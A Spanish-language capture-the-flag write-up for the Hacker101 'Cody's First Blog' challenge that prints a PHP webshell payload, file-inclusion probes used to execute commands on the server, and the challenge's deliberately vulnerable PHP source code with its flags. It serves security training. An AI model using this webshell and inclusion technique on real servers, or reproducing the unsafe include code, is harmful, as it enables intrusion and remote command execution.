



# HackerOne Hacker101 CTF

## Cody's First Blog
### Web - Moderate (5/flag)



### Hints

* Flag0
	* What was the first input you saw?
	* Figuring out what platform this is running on may give you some ideas
	* Code injection usually doesn't work
* Flag1
	* Make sure you check everything you're provided
	* Unused code can often lead to information you wouldn't otherwise get
	* Simple guessing might help you out
* Flag2
	* Read the first blog post carefully
	* We talk about this in the Hacker101 File Inclusion Bugs video
	* Where can you access your own stored data?
	* Include doesn't just work for filenames
	
	
### Flag0 - PHP

La primera de las flags se obtiene intentando inyectar código PHP en un post.
```
<?php phpinfo() ?>
```

### Flag1 - Guessing

En el código fuente del index hay un comentario HTML con la siguiente URL

```
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

Cuando accedemos a ella tenemos un formulario de login. Además el formato de la URL puede ser vulnerable a LFI.

Probamos la siguiente página inexistente `/?page=TEST` y obtenemos un error en el que vemos que se le ha añadido la extensión *PHP*.

`Warning: include(TEST.php): failed to open stream: No such file or directory in /app/index.php on line 21`

En versiones antiguas de PHP es posible utilizar un byte nulo `%00` como terminador en la función `include`. Para verificar si funciona lo usamos con un archivo que sabemos que existe.

`?page=admin.auth.inc.php%00`

`Warning: include(): Failed opening 'admin.auth.inc.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21`

Nos devuelve un error, por tanto no es vulnerable.

Tras un poco de guessing, tal como nos indica la pista. Accedemos a `admin.inc.php`.



### Flag2 - SSRF + RCE

El ultimo comando es conseguir ejecución de comandos en el servidor.

El primer paso es publicar y aprobar un comentario con una webshell `<?php system($_GET['cmd']); ?>`.



El siguiente paso es cargar este código haciendo una petición HTTP al index, ademas e

`?page=http://127.0.0.1?&cmd=whoami`

Con `cat index.php` obtenemos el código fuente de la aplicación, y la última flag.

```php
<?php
	// ^FLAG^df4533d3f24f22021aa842e87091d8567b239f59a174546b66c95fa2f82258ca$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^5c9376d3de6ef5ba7b2af89f133b51a62f0911e6bd7f6bfd8a96cfd997ea2d55$FLAG$</p>';
?>
	<p>Comment submitted and awaiting approval!</p>
	<a href="javascript:window.history.back()">Go back</a>
<?php
		exit();
	}

	ob_start();
	include($page . ".php");
	$body = ob_get_clean();
?>
<!doctype html>
<html>
	<head>
		<title><?php echo $title; ?> -- Cody's First Blog</title>
	</head>
	<body>
		<h1><?php echo $title; ?></h1>
		<?php echo $body; ?>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
<?php
	$q = mysql_query("SELECT body FROM comments WHERE page='" . mysql_real_escape_string($page) . "' AND approved=1");
	while($row = mysql_fetch_assoc($q)) {
		?>
		<hr>
		<p><?php echo $row["body"]; ?></p>
		<?php
	}
?>
	</body>
</html>
```
